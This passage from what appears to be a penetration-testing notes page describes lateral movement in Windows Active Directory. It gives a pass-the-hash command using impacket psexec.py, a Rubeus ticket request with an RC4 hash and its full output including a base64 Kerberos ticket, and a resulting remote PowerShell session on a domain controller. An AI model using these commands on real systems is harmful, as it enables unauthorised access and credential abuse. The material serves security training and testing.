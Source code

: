 #### How to connect with RPC/SMB

* If you have port 445 open, you can use tools such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) and the impacket examples [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) ([wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) will also need the port 135)
* You can also perform Pass-the-hash with the NT or LM hash directly with impacket tools:

```
psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
```

* With the PsExec tool, [inject the NT hash in the Windows session with mimikatz](https://stealthbits.com/blog/passing-the-hash-with-mimikatz/).

With those techniques we connect via NTLM auth, but by default Kerberos is used and we would need to provide a kerberos tickets with those tools

* in Windows we will need to [inject the ticket in the session](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-windows) by using [mimikatz](https://github.com/gentilkiwi/mimikatz) or [Rubeus](https://github.com/GhostPack/Rubeus).

Windows and linux use different ticket formay that we can convert using [ticket\_converter](https://github.com/Zer1t0/ticket\_converter) or [cerbero](https://github.com/Zer1t0/cerbero#convert).

#### How to use **Powershell Remoting to connect**

to connect to a Windows machine and get a Powershell session in the remote machine

* From windows we need to use [CmdLets and parameters](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.1)
  * if we have a Kerberos ticket or a NT hash, we will need to inject them by using [Rubeus](https://github.com/GhostPack/Rubeus) or [mimikatz](https://github.com/gentilkiwi/mimikatz).

```
.\Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b73fdfe10e87b4ca5c0d957f81de6863
[*] Building AS-REQ (w/ preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFQjCCBT6gAwIBBaEDAgEWooIETzCCBEthggRHMIIEQ6ADAgEFoQ8bDUNPTlRPU08uTE9DQUyiIjAg
      oAMCAQKhGTAXGwZrcmJ0Z3QbDWNvbnRvc28ubG9jYWyjggQFMIIEAaADAgESoQMCAQKiggPzBIID7xK3
      <!--stripped-->
      ERgPMjAyMTA1MDgwMjQzMjZapxEYDzIwMjEwNTE0MTY0MzI2WqgPGw1DT05UT1NPLkxPQ0FMqSIwIKAD
      AgECoRkwFxsGa3JidGd0Gw1jb250b3NvLmxvY2Fs
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/contoso.local
  ServiceRealm          :  CONTOSO.LOCAL
  UserName              :  Administrator
  UserRealm             :  CONTOSO.LOCAL
  StartTime             :  07/05/2021 18:43:26
  EndTime               :  08/05/2021 04:43:26
  RenewTill             :  14/05/2021 18:43:26
```

[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname